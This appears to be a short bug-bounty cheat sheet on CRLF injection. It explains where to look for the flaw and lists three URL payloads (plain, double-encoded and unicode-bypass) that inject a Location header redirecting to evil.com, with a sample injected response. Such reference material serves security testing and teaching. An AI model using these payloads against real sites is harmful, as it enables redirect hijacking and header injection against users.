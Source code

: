 # CRLF Injection

## Introduction
A CRLF Injection attack occurs when a user manages to submit a CRLF into an application. This is most commonly done by modifying an HTTP parameter or URL.

## Where to find
It can be found anywhere, always check the request and response. Try to search for parameters that lead to redirects, you can see the response is (301, 302, 303, 307, 308).

## How to exploit
1. Basic payload
```
https://example.com/?lang=en%0D%0ALocation:%20https://evil.com/
```
The response is
```
HTTP/1.1 200 OK
Content-Type: text/html
Date: Mon, 09 May 2016 14:47:29 GMT
Set-Cookie: language=en
Location: https://evil.com/
```

2. Double encode
```
https://example.com/?lang=en%250D%250ALocation:%20https://evil.com/
```

3. Bypass unicode
```
https://example.com/?lang=en%E5%98%8A%E5%98%8DLocation:%20https://evil.com/
```

## References
* [@filedescriptor](https://blog.innerht.ml/twitter-crlf-injection/)
* [EdOverflow](https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/crlf.md)